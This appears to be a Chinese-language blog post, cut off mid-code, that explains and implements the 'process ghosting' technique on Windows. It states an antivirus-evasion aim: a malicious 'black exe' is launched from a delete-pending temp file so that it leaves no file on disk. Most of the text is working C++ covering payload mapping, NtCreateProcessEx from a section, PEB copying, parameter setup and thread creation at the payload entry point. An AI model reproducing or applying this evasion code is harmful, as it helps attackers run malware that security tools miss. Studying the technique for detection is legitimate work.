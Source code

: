 •black exe：要免杀获取自删除的文件

      •white exe：这个可以是任意文件，它的主要作用是获取white exe的进程环境变量，此程序不会被打开      •temp file：这是为black exe创建的temp文件，会被设置为删除状态，并且在启动进程后会自动删除。

  

下面是整个代码的思维导图：

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20211015102214.png)

其中主要涉及到三个函数分别是buffer_payload、process_ghost、make_section_from_delete_pending_file。

### buffer_payload

它的主要作用是打开black exe文件句柄，并将black
exe映射进内存，但是不执行后续的启动process操作。而后将exe映射进内存中的数据以指针的形式返回。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    BYTE* buffer_payload(wchar_t *filename, OUT size_t &r_size) {    HANDLE file = CreateFileW(filename, GENERIC_READ, FILE_SHARE_READ, 0, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, 0);//获取文件handle    if (file == INVALID_HANDLE_VALUE) {        cout << "create file fail!\n" << endl;    }    HANDLE mapping = CreateFileMapping(file, 0, PAGE_READONLY, 0, 0, 0); //打开或创建文件的映射对象，返回值为新创建的文件映射handle    if (!mapping) {        CloseHandle(file);        return nullptr;        cout << "create map fail!\n" << endl;    }    BYTE* dllRawData = (BYTE*)MapViewOfFile(mapping, FILE_MAP_READ, 0, 0, 0);//将文件映射handle映射到进程空间    if (dllRawData == nullptr) {        cout << "map move fail!\n" << endl;        CloseHandle(mapping);        CloseHandle(file);        return nullptr;    }    r_size = GetFileSize(file, 0);    BYTE* localCopyAddress = (BYTE*)VirtualAlloc(NULL, r_size, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);//内存中申请文件大小的地址空间    memcpy(localCopyAddress, dllRawData, r_size);    UnmapViewOfFile(dllRawData);//解映射    CloseHandle(mapping);    CloseHandle(file);    return localCopyAddress;  
    }

### process_ghost

这个函数的主要作用是进行启动进程的操作。

  *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   *   * 

    
    
    bool process_ghost(wchar_t* targetPath, BYTE* payladBuf, DWORD payloadSize){    wchar_t dummy_name[MAX_PATH] = { 0 };    wchar_t temp_path[MAX_PATH] = { 0 };    DWORD size = GetTempPathW(MAX_PATH, temp_path);//获取temp文件路径    GetTempFileNameW(temp_path, L"TH", 0, dummy_name);//给temp文件创建一个名称  
        HANDLE hSection = make_section_from_delete_pending_file(dummy_name, payladBuf, payloadSize);//将temp文件属性设置为删除状态，并将文件映射进section    if (!hSection || hSection == INVALID_HANDLE_VALUE) {        return false;    }    HANDLE hProcess = nullptr;    NTSTATUS status = NtCreateProcessEx(        &hProcess,        PROCESS_ALL_ACCESS,        NULL,        NtCurrentProcess(),        PS_INHERIT_HANDLES,        hSection,        NULL,        NULL,        FALSE    );//根据传入的section创建process    if (status != STATUS_SUCCESS) {        cerr << "NtCreateProcessEx failed! Status: " << hex << status << endl;        if (status == STATUS_IMAGE_MACHINE_TYPE_MISMATCH) {            cerr << "[!] The payload has mismatching bitness!" << endl;        }        return false;    }    PROCESS_BASIC_INFORMATION pi = { 0 };    DWORD ReturnLength = 0;    status = NtQueryInformationProcess(        hProcess,        ProcessBasicInformation,        &pi,        sizeof(PROCESS_BASIC_INFORMATION),        &ReturnLength    );//索引创建的进程基础信息    if (status != STATUS_SUCCESS) {        std::cerr << "NtQueryInformationProcess failed" << std::endl;        return false;    }    PEB peb_copy = { 0 };    if (!buffer_remote_peb(hProcess, pi, peb_copy)) {//将black exe的内存数据复制到peb_copy，主要作用是获取ImageBaseAddress        return false;    }    ULONGLONG imageBase = (ULONGLONG)peb_copy.ImageBaseAddress;    DWORD payload_ep = get_entry_point_rva(payladBuf);//获取入口点的偏移地址    ULONGLONG procEntry = payload_ep + imageBase;//获取到入口点的地址    if (!setup_process_parameters(hProcess, pi, targetPath)) {//将环境变量写入进程的内存空间，此处是唯一一次用到white exe的地方:)        std::cerr << "Parameters setup failed" << std::endl;        return false;    }    HANDLE hThread = NULL;    status = NtCreateThreadEx(&hThread,        THREAD_ALL_ACCESS,        NULL,        hProcess,        (LPTHREAD_START_ROUTINE)procEntry,        NULL,        FALSE,        0,        0,        0,        NULL    );//在进程中black exe内存的入口点创建线程  